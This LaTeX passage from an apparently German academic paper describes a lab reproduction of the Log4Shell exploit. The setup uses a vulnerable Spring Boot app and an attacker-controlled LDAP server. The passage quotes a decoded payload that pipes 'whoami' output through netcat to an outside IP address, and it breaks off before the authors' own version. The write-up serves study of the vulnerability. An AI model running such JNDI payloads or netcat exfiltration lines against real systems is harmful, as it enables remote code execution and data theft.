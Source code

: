 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch betroffene Java Versionen bereits entfernt wurden, wurde im Versuchsaufbau ein Git Repository verwendet.\footcite{log4jvulnerableapp}
Es beinhaltet eine Java Spring Boot Web Applikation, die mit einer Java Version läuft, die nach wie vor anfällig für Log4Shell Angriffe ist.

Des Weiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren.
Hierfür verwendet wurde ein weiteres Git Repository, in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird.
Dieses Repository wurde jedoch aus GitHub entfernt.
Das Kompilat des schädlichen \gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\footcite{maliciousLdap}

Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist es, eine \gls{http}-Anfrage an das Zielsystem zu senden.
In der Anfrage muss nun nur noch die \gls{ip}-Adresse mit Port angegeben werden, unter der der \gls{ldap}-Server erreichbar ist.

\bigskip

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet.
Daher liegt das auszuführende Skript als base64-encoded String vor.
Die \gls{bash} Befehle, die hier der Reihe nach ausgeführt werden, sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}.

Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht \textit{Reverse-Engineered} werden.
Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:



